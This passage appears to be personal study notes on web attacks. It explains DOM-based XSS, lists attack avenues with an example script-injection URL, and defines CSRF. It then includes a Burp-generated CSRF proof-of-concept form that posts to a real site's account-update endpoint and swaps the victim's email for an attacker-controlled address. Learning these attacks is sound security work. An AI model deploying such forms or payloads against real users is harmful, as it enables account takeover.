 The details of a DOM-based XSS:

![dom xss details](../imgs/04-1-23_dom-xss-details.png)

The key difference between a stored XSS and DOM-based XSS is that the victim's browser executes the payload via the DOM.

### Avenues of Attack

* HTTP headers
* Intentionally invalid requests (e.g. `http://192.168.1.1/lol.php?\<script></script>`)

**Cross-Site Request Forgery (CSRF)** is an attack in which the attacker induces users to perform actions that they don't intend to perform. It allows the attacker to partly circumvent the same origin policy.

``` html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<form action="https://connect.hbo.com/account/update" method="POST">
<input type="hidden" name="&#95;token" value="9SEfzSSt3BRKWCsNylia98mcokjgc91AJLMJ51sp"/>
<input type="hidden" name="first&#95;name" value="aaaaaaaaaaa"/>
<input type="hidden" name="last&#95;name" value="usera"/>
<input type="hidden" name="email" value="changeemail&#64;mailinator&#46;com"/>
<input type="hidden" name="zip&#95;code&#95;id" value="40404"/>
<input type="hidden" name="timezone" value="America&#47;New&#95;York"/>
<input type="submit" value="Submit request"/>
</form>
</body>
</html>
```
